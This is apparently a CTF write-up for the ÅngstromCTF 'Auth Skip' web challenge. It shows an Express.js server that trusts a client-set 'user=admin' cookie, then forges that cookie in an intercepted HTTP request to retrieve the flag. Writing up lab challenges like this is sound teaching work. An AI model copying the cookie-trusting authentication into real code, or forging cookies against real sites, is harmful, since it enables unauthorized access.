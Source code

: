 ```yaml
---
Title: ÅngstromCTF
Date: 2022-05-05 00:00:00 +0000
categories: [Writeups, Ctf]
tags: [ctf, web, cookie, auth]
---
```


# Auth Skip

Goal is to do the legendary "Auth Skip", like in true speedrunner fashion, finding an exploit, getting those gold splits, conquering the leaderboard!

Given the source code, i began to look at the logic of the cookies used for authentication.

```javascript
const express = require("express");
const path = require("path");
const cookieParser = require("cookie-parser");

const app = express();
const port = Number(process.env.PORT) || 8080;

const flag = process.env.FLAG || "actf{placeholder_flag}";

app.use(express.urlencoded({ extended: false }));
app.use(cookieParser());

app.post("/login", (req, res) => {
    if (
        req.body.username !== "admin" ||
        req.body.password !== Math.random().toString()
    ) {
        res.status(401).type("text/plain").send("incorrect login");
    } else {
        res.cookie("user", "admin");
        res.redirect("/");
    }
});

app.get("/", (req, res) => {
    if (req.cookies.user === "admin") {
        res.type("text/plain").send(flag);
    } else {
        res.sendFile(path.join(__dirname, "index.html"));
    }
});

app.listen(port, () => {
    console.log(`Server listening on port ${port}.`);
});
```

The vuln lies in the following lines:

```javascript
    } else {
        res.cookie("user", "admin");
        res.redirect("/");
```
{: .nolineno }

We can set our cookie to something like, `user=admin`  and we can ommit the password, as it doesn't require us to provide one.

Providing the username cookie, we are then redirected to the flag at "/"

```javascript
app.get("/", (req, res) => {
    if (req.cookies.user === "admin") {
        res.type("text/plain").send(flag);
    } else {
        res.sendFile(path.join(__dirname, "index.html"));
    }
```
{: .nolineno }

--- 

## Exploit: Legendary Auth Skip
In burp i intercepted :

```http
GET / HTTP/2
Host: auth-skip.web.actf.co
Sec-Ch-Ua: [...]
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: [...]
Accept: [...]
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```
{: .nolineno }

Simply add the cookie to the request

```
Cookie: user=admin
```
{: .nolineno }

et voilà !

```http
HTTP/2 200 OK
Date: Wed, 04 May 2022 14:44:26 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 54
X-Powered-By: Express
Etag: W/"36-QSBEGde8h39PljsFBY/epRs/oqo"
Strict-Transport-Security: max-age=15724800; includeSubDomains

actf{passwordless_authentication_is_the_new_hip_thing}
```
{: .nolineno }

### Aut viam inveniam aut faciam    
